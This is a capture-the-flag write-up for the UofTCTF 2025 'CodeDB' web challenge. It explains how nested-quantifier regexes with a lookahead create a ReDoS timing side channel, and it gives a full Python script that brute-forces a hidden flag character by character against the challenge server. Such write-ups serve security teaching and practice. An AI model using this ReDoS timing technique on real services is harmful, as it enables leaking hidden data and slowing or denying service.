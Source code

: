 ```yaml
---
title: CodeDB
description: Welcome to CTRL+F the website! It's pretty much just GitHub code search. 
categories: ["ctf", "UofTCTF 2025"]
tags: ["web"]
media_subpath: "/assets/posts/2025/uoftctf/code-db"
---
```


We have a website that can search through code snippets:

![](1.png)

We can search by strings or regexes and get all code snippets that match:

![](2.png)

Every search is done via a separate worker thread:

![](3.png)

The worker simply applies the regex on all code snippets and returns the results:

![](4.png)

The flag is located in a file alongside other code snippets. However, it's not "visible":

![](5.png)

The regex is still applied to the `flag.txt` file, but the results are not returned.

However, we control the regex we send that is applied to the `flag.txt` file. We can perform
a ReDOS attack and bruteforce the flag one character at a time.

One example of a regex that takes a really long time to evaluate the input is `/(?=input)(((((.*)*)*)*)*)*input/`.
Because of the lookahead assertion and the nested capturing groups that will evaluate the same part of the string,
the regex takes more than a second to run, but that is true only when the regex matches. If the regex does not
match, it will fail instantly.

We can use this technique to send one character at a time from the flag, bruteforcing all possible choices.
If the request takes a longer time, we know we found a good character, and we continue from there.

Since we cannot reliably detect a threshold for network requests (since requests can take longer for numerous reasons,
or the server might be overloaded), we can send multiple requests for each character, calculate the arithmetic mean
of their run duration and sort all means. The biggest value is most probably the request with the good character.

Full exploit code:
{% raw %}
```py
import requests
import time
import string

alphabet = list(string.ascii_letters + string.digits + "!#$%&,@_~") + [r"\?", r"\}"]
template = r"/(?=uoftctf\{{{})(((((.*)*)*)*)*)*uoftctf/"

url = "http://localhost:3000"
url = "http://34.162.172.123:3000"

found = ""
while True:
    stats = []
    for letter in alphabet:
        query = template.format(found + letter)
        times = []
        for _ in range(3):
            before = time.time_ns()
            requests.post(f"{url}/search", json={
                "query": query
            })
            after = time.time_ns()
            delta = after - before
            times.append(delta)

        average = sum(times) / len(times)
        stats.append((letter, average))
        
    stats.sort(key=lambda tuple: tuple[1])   
    current = stats[-1][0]
    if current == r"\}":
        break 
    found += current
    print(found)
```
{% endraw %}
